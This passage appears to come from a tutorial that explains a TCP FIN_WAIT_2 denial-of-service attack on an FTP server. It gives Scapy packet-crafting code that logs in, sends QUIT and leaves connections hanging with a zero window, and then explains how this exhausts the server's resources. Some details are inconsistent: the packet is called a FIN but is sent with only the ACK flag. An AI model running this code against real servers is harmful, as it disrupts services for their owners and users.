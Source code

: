 Simulating Full Buffer and FIN-WAIT Transition:

```C
sleep(0.1)
my_seq += len(USER)
my_ack = derp.seq + (derp[IP].len - (derp[IP].ihl * 4) - (derp[TCP].dataofs * 4))
data = PASS  # Construct FTP PASS command
PUSH = TCP(sport=SPORT2, dport=21, flags="PA", seq=my_seq, ack=my_ack, window=0xffff)
derp = sr1(ip/PUSH/data)  # Send FTP PASS command
# Sending QUIT command and transitioning to FIN_WAIT_2
my_seq += len(PASS)
my_ack = derp.seq + (derp[IP].len - (derp[IP].ihl * 4) - (derp[TCP].dataofs * 4))
data = QUIT
PUSH = TCP(sport=SPORT2, dport=21, flags="PA", seq=my_seq, ack=my_ack, window=0xffff)
derp = sr1(ip/PUSH/data)
```

Crafting the Denial-of-Service Condition:

```C
my_seq += len(QUIT)
my_ack = derp.seq + (derp[IP].len - (derp[IP].ihl * 4) - (derp[TCP].dataofs * 4) + 1)
FIN = TCP(sport=SPORT2, dport=21, flags="A", seq=my_seq, ack=my_ack, window=0x0)  # FIN packet with window size set to 0
send(ip/FIN)  # Send the crafted FIN packet
print("\nCheck TCP state on " + DSTIP + ", Port: " + str(SPORT2) + ". Should be in FIN_WAIT_2 state.\n")
```

*   The final `FIN` packet sets `window=0x0`, simulating a full receive buffer and indicating to the server that the client can’t accept more data. This window size hints that the client is not ready for further data transfer, leaving the server waiting for a closing `FIN`.
*   By sending a `FIN` without properly closing the connection from the client side, the server transitions to `FIN_WAIT_2` and remains there indefinitely, consuming resources.

If you aren’t still clear about this, This is how the script creates a DoS Condition,

1.  **TCP FIN_WAIT_2 State**:

*   The script ends by sending a `FIN` packet with a **window size of 0**, signaling the closure of the connection from the sender's side.
*   The target server responds with an `ACK` and moves into the `**FIN_WAIT_2**` **state**, waiting for a `FIN` from the sender (our script) to fully close the connection.

2. **Window Size of 0**:

*   By setting the window size to 0, the script tells the server that it cannot accept more data at that time. This does not stop the server from holding the connection open; it just pauses data transmission from the server to the sender.

3. **Stuck in** `**FIN_WAIT_2**`:

*   The `FIN_WAIT_2` state is designed to be temporary, but if the sender does not send a final `FIN` to complete the connection teardown, the target server may remain in this state indefinitely.
*   If multiple such connections are initiated and left hanging in `FIN_WAIT_2`, the target server's resources (such as memory and file descriptors) can become exhausted, leading to a denial-of-service condition.
